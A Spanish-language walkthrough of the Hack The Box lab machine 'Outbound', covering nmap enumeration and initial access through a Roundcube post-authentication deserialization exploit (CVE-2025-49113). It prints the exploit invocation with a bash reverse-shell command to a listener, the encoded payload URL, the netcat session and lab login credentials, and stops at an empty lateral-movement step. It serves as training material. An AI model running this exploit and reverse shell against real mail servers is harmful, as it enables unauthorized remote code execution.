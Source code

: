 # HTB: Outbound

## Host: Linux
## IP: 10.10.11.77

## Procedimiento y comandos

* Se nos proveen las credenciales para esta maquina:

> As is common in real life pentests, you will start the Outbound box with credentials for the following account tyler / LhKL1o9Nm3X2

user: **tyler**
password: ** LhKL1o9Nm3X2 **

#### Paso 1: Enumeracion

* Nmap

```bash
  cat Outbound-nmap.txt 
# Nmap 7.95 scan initiated Sun Sep  7 18:49:36 2025 as: /usr/lib/nmap/nmap -A -oN Outbound-nmap.txt 10.10.11.77
Nmap scan report for 10.10.11.77
Host is up (0.17s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 0c:4b:d2:76:ab:10:06:92:05:dc:f7:55:94:7f:18:df (ECDSA)
|_  256 2d:6d:4a:4c:ee:2e:11:b6:c8:90:e6:83:e9:df:38:b0 (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-server-header: nginx/1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to http://mail.outbound.htb/
Device type: general purpose|router
Running: Linux 4.X|5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 4.15 - 5.19, MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 1723/tcp)
HOP RTT       ADDRESS
1   164.84 ms 10.10.14.1
2   164.93 ms 10.10.11.77

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Sep  7 18:49:54 2025 -- 1 IP address (1 host up) scanned in 18.78 seconds
```
#### Paso 2: Acceso inicial

* Buscamos un exploit para **Roundcube webmail**

[Exploit 1](https://github.com/00xCanelo/CVE-2025-49113) python
[Exploit 2](https://github.com/hakaioffsec/CVE-2025-49113-exploit) php
[Exploit 3](https://github.com/fearsoff-org/CVE-2025-49113) php

> Los dos primeros exploits no dieron resultados

1. Ejecutamos el exploit 3 con un receptor nc previamente activo

```bash
  php CVE-2025-49113.php http://mail.outbound.htb tyler 'LhKL1o9Nm3X2' "bash -c '/bin/sh -i >& /dev/tcp/10.10.14.188/4444 0>&1'"
### Roundcube ≤ 1.6.10 Post-Auth RCE via PHP Object Deserialization [CVE-2025-49113]

### Retrieving CSRF token and session cookie...

### Authenticating user: tyler

### Authentication successful

### Command to be executed: 
bash -c '/bin/sh -i >& /dev/tcp/10.10.14.188/4444 0>&1'

### Injecting payload...

### End payload: http://mail.outbound.htb/?_from=edit-%21%C2%22%C2%3B%C2i%C2%3A%C20%C2%3B%C2O%C2%3A%C21%C26%C2%3A%C2%22%C2C%C2r%C2y%C2p%C2t%C2_%C2G%C2P%C2G%C2_%C2E%C2n%C2g%C2i%C2n%C2e%C2%22%C2%3A%C21%C2%3A%C2%7B%C2S%C2%3A%C22%C26%C2%3A%C2%22%C2%5C%C20%C20%C2C%C2r%C2y%C2p%C2t%C2_%C2G%C2P%C2G%C2_%C2E%C2n%C2g%C2i%C2n%C2e%C2%5C%C20%C20%C2_%C2g%C2p%C2g%C2c%C2o%C2n%C2f%C2%22%C2%3B%C2S%C2%3A%C25%C27%C2%3A%C2%22%C2b%C2a%C2s%C2h%C2+%C2-%C2c%C2+%C2%27%C2%2F%C2b%C2i%C2n%C2%2F%C2s%C2h%C2+%C2-%C2i%C2+%C2%3E%C2%26%C2+%C2%2F%C2d%C2e%C2v%C2%2F%C2t%C2c%C2p%C2%2F%C21%C20%C2%5C%C22%C2e%C21%C20%C2%5C%C22%C2e%C21%C24%C2%5C%C22%C2e%C21%C28%C28%C2%2F%C24%C24%C24%C24%C2+%C20%C2%3E%C2%26%C21%C2%27%C2%3B%C2%23%C2%22%C2%3B%C2%7D%C2i%C2%3A%C20%C2%3B%C2b%C2%3A%C20%C2%3B%C2%7D%C2%22%C2%3B%C2%7D%C2%7D%C2&_task=settings&_framed=1&_remote=1&_id=1&_uploadid=1&_unlock=1&_action=upload

### Payload injected successfully

### Executing payload...

```

2. Receptor

```bash
  nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.188] from (UNKNOWN) [10.10.11.77] 53106
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ 
```

#### Paso 3: Movimiento lateral/Escalada privilegios

1. Recoleccion de usuarios

```bash

```
